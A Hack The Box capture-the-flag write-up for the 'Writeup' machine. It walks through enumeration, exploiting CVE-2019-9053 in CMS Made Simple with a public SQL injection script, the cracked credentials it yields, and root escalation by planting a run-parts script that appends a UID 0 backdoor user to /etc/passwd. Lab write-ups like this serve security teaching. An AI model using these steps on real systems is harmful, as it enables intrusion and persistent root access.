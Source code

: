 ```yaml
---
title: Writeup - Hack The Box
date: 2025-03-27
---
```


![Information Card](/ctf/hack-the-box/machines/writeup/info-card.png)

## Enumeration

### Nmap Scan

We begin by running a comprehensive Nmap scan to enumerate open ports and detect running services:

```bash
nmap -sC -sV -v -p- -oN writeup.nmap 10.10.10.138
```

**Scan Results:**

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
```

Port 22 and 80 are open but both return `tcpwrapped`, indicating access control mechanisms or limitations on banner grabbing.

### Web Enumeration

Navigating to `http://10.10.10.138/`, we are presented with a basic webpage:

![Homepage](/ctf/hack-the-box/machines/writeup/home.png)

Checking `robots.txt`, we discover a disallowed path:

![robots.txt](/ctf/hack-the-box/machines/writeup/robots.png)

The file discloses the `/writeup` directory, which appears to host a web application:

![Writeup Page](/ctf/hack-the-box/machines/writeup/writeup.png)

We use `whatweb` to fingerprint the application:

```bash
whatweb http://10.10.10.138/writeup/
```

![WhatWeb Output](/ctf/hack-the-box/machines/writeup/whatweb.png)

The application is identified as **CMS Made Simple**—an open-source PHP CMS. The footer indicates the version may date back to 2019.

Based on this, we research known vulnerabilities and discover [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053), which is an unauthenticated SQL injection vulnerability affecting CMS Made Simple version 2.2.9.

### Exploitation

We exploit the SQL injection using the publicly available script [Exploit-DB 46635](https://www.exploit-db.com/exploits/46635):

```bash
python3 46635.py -u "http://10.10.10.138/writeup/" -w /usr/share/wordlists/rockyou.txt -c
```

**Script Output:**

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password hash found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With the credentials `jkr : raykayjay9`, we are able to access the machine via SSH:

```bash
ssh jkr@10.10.10.138
```

After logging in, we retrieve the user flag:

```bash
jkr@writeup:~$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

We check the group memberships for the `jkr` user:

![User Groups](/ctf/hack-the-box/machines/writeup/groups.png)

The user is part of the `staff` group, which may have access to sensitive directories or cron-related scripts. We refer to [this blog post](https://binaryregion.wordpress.com/2021/09/22/privilege-escalation-linux-staff-group/) explaining how this group can be leveraged for privilege escalation.

To monitor background activity, we run `pspy32`, a tool for process discovery:

![pspy Output](/ctf/hack-the-box/machines/writeup/pspy32.png)

We observe that a `run-parts` script is executed as **root** on a recurring schedule. This script executes all scripts in a given directory—offering an opportunity to inject malicious code.

### Crafting the Exploit

We replace or add a script in the expected `run-parts` path, such as `/usr/local/bin/run-parts`, to append a new root user into `/etc/passwd`:

```bash
#!/bin/bash
echo 'deejay:$1$deejay$4bbVUrgoKNqATEsKbF2d.0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Once triggered, the new user `deejay` with UID 0 is added.

We confirm the injection:

![Modified /etc/passwd](/ctf/hack-the-box/machines/writeup/passwd.png)

Now, we switch to the new root user:

```bash
su deejay
```

Access is granted, and we retrieve the root flag:

```bash
cat /root/root.txt
```

![Root Access](/ctf/hack-the-box/machines/writeup/root.png)
